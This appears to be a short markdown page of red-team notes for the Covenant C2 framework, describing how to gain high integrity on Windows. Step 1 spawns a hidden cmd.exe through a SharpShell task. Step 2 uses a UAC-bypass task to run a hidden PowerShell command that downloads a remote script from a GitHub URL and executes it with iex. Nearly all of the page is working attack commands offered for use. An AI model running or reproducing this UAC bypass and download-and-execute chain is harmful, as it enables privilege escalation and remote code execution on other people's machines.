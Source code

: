 ## Get high integrity ([source](https://www.sevenlayers.com/index.php/370-covenant-c2-deep-dive))
### Step 1
- Visibility: none
- GruntTask: **SharpShell**
- Code:
```
var startInfo = new System.Diagnostics.ProcessStartInfo { FileName = @\"C:\Windows\System32\cmd.exe\", WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden }; var cmd = new System.Diagnostics.Process { StartInfo = startInfo }; cmd.Start(); return cmd.Id.ToString();
```
### Step 2
- Visibility: cmd popup for 400ms
- GruntTask: **BypassUACCommand**
- Command: `cmd.exe`
- Parameters: 
```
/c powershell -Sta -Nop -Window Hidden -Command iex (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/sJ3Wpid/schoolproject/main/autorun.ps1')
```
- Directory: none
- ProcessID: {output of step 1}
